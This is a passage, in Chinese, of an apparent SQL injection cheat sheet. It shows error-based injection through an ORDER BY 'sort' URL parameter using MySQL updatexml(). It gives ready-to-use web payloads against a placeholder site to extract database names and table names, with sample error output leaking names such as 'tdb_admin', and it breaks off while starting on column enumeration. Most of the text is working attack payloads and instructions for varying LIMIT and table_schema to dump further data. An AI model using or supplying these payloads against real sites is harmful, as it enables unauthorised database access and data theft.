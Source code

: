 
web语句: http://www.test.com/sql.php?sort=id,updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1),0x7e),1)



数据库语句: select * from test order by id,updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1),0x7e),1);



```plain
mysql> select * from test order by id,updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~~information_schema~~'
```

## 0x05 爆表名

注意: table_schema=xxx 修改为其他库会查出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据



注意: LIMIT 0 修改会爆出不同的表名

例如:

LIMIT 0,1 修改为0 就是出1表

LIMIT 1,1 修改为1 就是出2表



web语句: http://www.test.com/sql.php?sort=id,updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1),0x7e),1)



数据库语句: select * from test order by id,updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1),0x7e),1);



```plain
mysql> select * from test order by id,updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~~tdb_admin~~'
```

## 0x06 暴字段

table_schema = "xx" 要看的数据库名

table_name = "xx" 要看的表名



limit 0 表示要爆的位置

